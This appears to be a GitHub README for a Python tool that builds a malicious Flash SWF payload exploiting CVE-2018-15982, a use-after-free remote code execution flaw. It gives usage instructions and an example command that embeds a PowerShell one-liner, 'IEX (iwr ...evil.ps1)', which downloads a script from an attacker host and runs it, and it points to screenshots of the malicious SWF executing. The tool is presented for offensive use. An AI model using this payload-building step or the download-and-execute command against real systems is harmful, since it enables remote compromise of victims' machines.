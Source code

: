 # Adobe Flash CVE-2018-15982

This script dynamically creates a swf payload for CVE-2018-15982, which is based off of the PoC payload from https://github.com/smgorelik/Windows-RCE-exploits.

The vulnerability is a use-after-free flaw enabling arbitrary code-execution in Flash.  More information can be found in the links below.

* https://threatpost.com/adobe-patches-zero-day-vulnerability-in-flash-player/139629/
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-15982


Usage:

```python create_swf.py <command> <output file name>```

Example Usage:

```python create_swf.py "powershell.exe IEX (iwr 'http://192.168.0.32/evil.ps1')" test.swf```
  


## Example


Download a file and confirm execution:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/create-and-confirm.png)


Executing malicious swf:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/exec.png)

